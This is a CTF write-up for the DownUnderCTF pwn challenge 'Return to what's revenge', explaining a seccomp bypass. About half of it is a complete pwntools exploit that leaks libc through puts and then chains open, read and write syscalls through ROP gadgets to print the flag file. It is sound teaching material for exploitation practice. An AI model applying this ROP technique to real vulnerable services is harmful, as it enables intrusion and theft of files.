




## DownUnder: Return to what's revenge [pwn]
> My friends kept making fun of me, so I hardened my program even further! The flag is located at /chal/flag.txt.

##### *tl;dr: learned how to bypass babyseccomp :)*
#### From my brief experience, revenge challenges are typically more hardened compared to their previous versions, but sometimes involve similar initial steps for exploitation. Security measures for this binary are the same as the return to what challenge, thus we can deduce that this will be another ROP challenge (but with a twist). Loading up the binary in GHIDRA, we can see new interesting functions such as the sandbox() and seccomp_bpf_label(). 


#### After a few minutes of google sessions, I found [this](https://www.kernel.org/doc/html/v4.16/userspace-api/seccomp_filter.html) link summarizing what seccomp is. From what I understood, seccomp basically is a filter for syscalls. I then continued to read some ctf writeups that involve bypassing seccomp which have helped me understand what it does better. So I installed seccomp-tools and examined the results.


#### We can see that it first checks if the architecture is x86_64 then proceeds to filter what syscalls are allowed. My initial plan was to create a rop chain to mmap a region in memory executable and place shellcode there (some writeups I read used this); the problem was that I couln't have an execve shellcode since seccomp will terminate the process as execve is not allowed. I could do a open, read, write shellcode instead (seing that they are allowed), but I thought why not just create a ROP chain for it, after all: (see below)


#### From here, I proceeded to leak puts' address from the remote server (similar to return to what), get the libc from libc.blukat.me using the leaked offset/s, and calculated for the libc base address. Next thing I did was to find rop gadgets to place values in the registers. For this we need to keep in mind that calling syscall alone will not execute the following instructions, so we need a `syscall; ret` gadget which we can find by adding the `--multibr` flag to ROPgadget. I redirected the output of the command to a file, viewed it in sublime text and manually searched for gadgets.
#### When we have the gadgets that we need, we will also need a read primitive to write the flag path to memory thus for this we will use gets again. But to where would we store it? We can store it in the .bss section, as it is the only segment in memory that has `rw--` permissions and isn't affected by the pie and aslr. 
```python
from pwn import *

#:
#p = process('./return-to-whats-revenge')
#gdb.attach(p.pid, 'break *vuln + 39')
p = remote("chal.duc.tf", 30006)
binary = ELF('./return-to-whats-revenge', checksec = False)

print(p.recv())

#: gadgets
pop_rdi = 0x00000000004019db
ret = 0x0000000000401016
puts_plt = binary.symbols['puts']
puts_got = binary.got['puts']
main_plt = binary.symbols['main']

#: exploit here
exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(puts_got)
exploit += p64(puts_plt)
exploit += p64(main_plt)

p.sendline(exploit)
leak = u64(p.recv()[:6].ljust(8, '\x00'))
print('[*] Libc leak: {}'.format(hex(leak)))

#: stage 2
libc = ELF('libc6_2.27-3ubuntu1_amd64.so', checksec = False)
libc.address = leak - libc.symbols['puts']
print('[*] Libc base: {}'.format(hex(libc.address)))

#: gadgets
bss_addr = 0x404020
pop_rdi = libc.address + 0x000000000002155f
pop_rsi = libc.address + 0x0000000000023e6a
pop_rdx = libc.address + 0x0000000000001b96
pop_rax = libc.address + 0x00000000000439c8
syscall = libc.address + 0x00000000000e5945

#:
exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(bss_addr)
exploit += p64(libc.symbols['gets'])

#: int fd = open('/chal/flag.txt', O_RDONLY)
exploit += p64(pop_rdi)
exploit += p64(bss_addr)
exploit += p64(pop_rsi)
exploit += p64(0x0)
exploit += p64(pop_rax)
exploit += p64(0x2)
exploit += p64(syscall)

#: read(fd, bss_addr+0x20, 0x30)
exploit += p64(pop_rdi)
exploit += p64(0x3) #: normally, opened files by the program will use fd 3
exploit += p64(pop_rsi)
exploit += p64(bss_addr + 0x20)
exploit += p64(pop_rdx)
exploit += p64(0x30)
exploit += p64(pop_rax)
exploit += p64(0x0)
exploit += p64(syscall)

#: write(1, bss_addr+0x20, 0x30)
exploit += p64(pop_rdi)
exploit += p64(0x1)
exploit += p64(pop_rsi)
exploit += p64(bss_addr + 0x20)
exploit += p64(pop_rdx)
exploit += p64(0x30)
exploit += p64(pop_rax)
exploit += p64(0x1)
exploit += p64(syscall)

p.sendline(exploit)
p.sendline('/chal/flag.txt')
print(p.recv())
```

